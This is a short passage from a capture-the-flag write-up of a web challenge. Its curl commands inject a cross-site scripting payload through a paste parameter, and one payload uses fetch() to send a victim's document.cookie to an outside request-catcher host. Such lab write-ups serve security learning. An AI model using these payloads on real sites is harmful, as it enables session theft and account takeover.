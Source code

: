 This enables our XSS attack vector:
```html
$ curl -X POST -d "content[]=;alert('XSS');" https://pasteurize.web.ctfcompetition.com/
Found. Redirecting to /9b12b762-9440-40e7-8476-bb3606ad27ed

$ curl https://pasteurize.web.ctfcompetition.com/9b12b762-9440-40e7-8476-bb3606ad27ed
...
 <script>
        const note = "";alert('XSS');"";
...
```

After some trial and error, we observe that the cookie is contained in TJMike's cookie. We will use [PTS](https://ptsv2.com/) to extract it. Note that we have to convert "+" to "%2b".
```bash
$ curl -X POST -d "content[]=;fetch('https://ptsv2.com/t/xxxxx-xxxxxxxxxx/post?c='%2bdocument.cookie);" \
    https://pasteurize.web.ctfcompetition.com/
```

After sharing paste with TJMIke, we can finally extract his cookie using PTS:

![TJMIke's cookie](img/pts.png)

Flag: `CTF{Express_t0_Tr0ubl3s}`

